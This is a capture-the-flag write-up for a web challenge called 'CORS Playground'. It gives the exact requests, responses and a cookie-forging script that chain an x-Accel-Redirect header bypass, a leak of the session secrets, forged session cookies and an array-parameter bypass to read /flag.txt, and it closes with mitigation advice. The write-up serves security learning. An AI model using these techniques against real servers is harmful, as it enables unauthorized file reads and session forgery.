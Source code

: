 ```yaml
---
title: CORS Playground
author: Adrian Junge
description: Perplexed by CORS? Our CORS Playground is your ideal solution. This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies. Perfect for unraveling the complexities of secure cross-origin requests. Dive in and clarify your CORS concepts!
categories:
    - Web
year: 2024
challengefiles: cors-playground.zip
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **Node.js** server with **nginx** allows setting arbitrary response headers
    **- Key Discoveries:** **Nginx** processes `X-Accel-Redirect` header to gain arbitrary file read in workdir e.g. of `.env`
    **- Check Bypass:** Bypassed X- header restriction using case insensitivity (x-Accel-Redirect)
    **- Cookie Forgery:** Forged cookies with leaked server secrets to impersonate the internal user using session keys
    **- Check Bypass:** Bypassed filename `/` check by sending the filename as an array: `filename[]=/flag.txt`

# 1. Introduction<a id="introduction"></a>
The description might be a bit misleading at the beginning:

```
Perplexed by CORS?
Our CORS Playground is your ideal solution.
This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies.
Perfect for unraveling the complexities of secure cross-origin requests.
Dive in and clarify your CORS concepts!
```

Although **CORS** is both contained in the title and the description, this challenge is nothing about exploitation of **CORS** misconfigurations.

# 2. Reconnaissance<a id="reconnaissance"></a>
The challenge is about a **node.js** server being deployed together with **nginx**. By starting playing around with the application we are able to add any kinds of CORS-headers to the server response via the `/cors` endpoint appending the headers as url parameters:

![overview](ctf/writeups/fcsc/corsplayground/corsplayground.png "overview")

After having a look into the source code, this is not only about CORS-headers. You can set *any* kind of header for your request and the server response:

```javascript
app.all("/cors", (req, res) => {
    for (const [key, value] of Object.entries(req.query)) {
        if (key.includes("X-")) delete req.query[key]
    }
    res.set(req.query);
    if (req.session.user === "internal" && !req.query.filename?.includes("/")) {
        res.sendfile(req.query.filename || "app.js");
    } else {
        res.send("Hello World!");
    }
});
```

Moreover there are some constraints e.g. we are not allowed to use custom headers starting with `X-`. Having set an appropriate cookie with `session.user === "internal"` allows us to retrieve any file we wish - sounds highly interesting. Unfortunately we are also not allowed to have a `/` in our path. So it seems like we are not allowed to use absolute paths and are restricted to the directory `/usr/app` the application is running in. Having a look in the docker setup we see the `flag.txt` got some interesting permissions set:

```dockerfile
FROM nginx:alpine3.18-slim
WORKDIR /usr/app
COPY --chown=1337:1337 --chmod=400 ./src/nginx/nginx.conf /etc/nginx/nginx.conf
COPY --chown=1337:1337 --chmod=500 ./src/app/ /usr/app/
COPY --chown=1337:1337 --chmod=500 ./src/start.sh /start.sh
COPY --chown=root:root --chmod=444 ./src/flag.txt /flag.txt
RUN apk add --update --no-cache            \
    nodejs~=18                             \
    npm~=9.6                            && \
    npm install
USER 1337:1337
CMD ["/bin/sh", "/start.sh"]
```

Anyone is allowed to read the `/flag.txt` because of the `444` rights. But how can we even get a cookie? The server secrets for generating cookies via the `cookie-session` seem to be random, so to forge any cookies we would have to forge a valid signature and thus break the underlying cryptography.

# 3. Vulnerability Description<a id="vulnerability description"></a>
Setting arbitrary headers in the server responses already seems very phishy. At first this seems kina useless. The headers are not processed any further but only appended to the server response. But we still got **nginx** sitting between client and server, so maybe some headers are still processed by **nginx**? There is an interesting header called `X-Accel-Redirect`. Usually this header is used to indicate that a response should be redirected. But in our case we can abuse this header to serve arbitrary files via **nginx**.

# 4. Exploitation<a id="exploitation"></a>
The working directory of **nginx** is `/usr/app`. But before using the `X-Accel-Redirect` header we need to bypass the `key.includes("X-")` check preventing us from using custom headers. Luckily nginx is not case sensitive. Unfortunately **nginx** won't serve us any files that are not contained in `/use/app/*`. So we can't simply request the `../../flag.txt` via e.g. a path traversal. By requesting `GET /cors?x-Accel-Redirect=.env` we get access to the server secrets:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:48:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
Connection: keep-alive
ETag: "6613ebf0-96"
Accept-Ranges: bytes

PORT=3000
KEY1=244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620
KEY2=c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2
```

Now that we have the server secrets we can start forging cookies. For this I used a small **node.js** server generating the cookies for me:

```javascript
const express = require("express");
const cookieSession = require("cookie-session");
const app  = express();

const KEY1="244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620"
const KEY2="c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2"

app.use(cookieSession({
    name: "session",
    keys: [KEY1, KEY2]
}));

app.get('/set-cookie', (req, res) => {
    req.session.user = 'internal';
    res.send('Cookie set and signed');
});

app.listen(3000, () => {
    console.log('Server running @ http://localhost:3000');
});
```

So by requesting `/set-cookie` we get:

```http
HTTP/1.1 304 Not Modified
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; path=/; httponly
Set-Cookie: session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA; path=/; httponly
ETag: W/"1b-eYZazkp0W5H4AV0mNeEdq7v8u6k"
Date: Mon, 03 Feb 2025 21:50:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

So we got our new cookie header `Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA` ready to exploit the application. Now we are able to request (almost) any files we want. For example `package.json`. The last obstacle is about bypassing the `includes("/")` check. In these kind of situations it is always worth it thinking about which assumptions the developer made when implementing such kind of checks. In this case the assumption is definitely that the `filename` url parameter is parsed as a string. What if we somehow manage to make this parameter something else than a string? Then the `includes` function would have a completely different meaning. Maybe you have already seen something like `GET /submit?selectedOptions[]=Option1&selectedOptions[]=Option3`. This is used when you are dealing with some **multi select fields**. **Express** will handle these kind of url parameters as arrays. Thus `includes` will have a different meaning than intended, leading to a bypass for this check. So by requesting `GET /cors?filename[]=/flag.txt` we get our well beloved flag:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:52:53 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 71
Connection: keep-alive
X-Powered-By: Express
filename: /flag.txt
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
ETag: W/"47-18ebdd1a180"

FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
```

So interesting enough the `res.sendfile` in the server code also accepts arrays.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is inherent to the design. The client should never be able to set arbitray response headers for the server. Moreover the checks trying to prevent exploitation are too lazy. In general using `includes` in security check is almost never a good idea because the match is too broad leading to bypasses.

# 6. Flag<a id="flag"></a>
FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
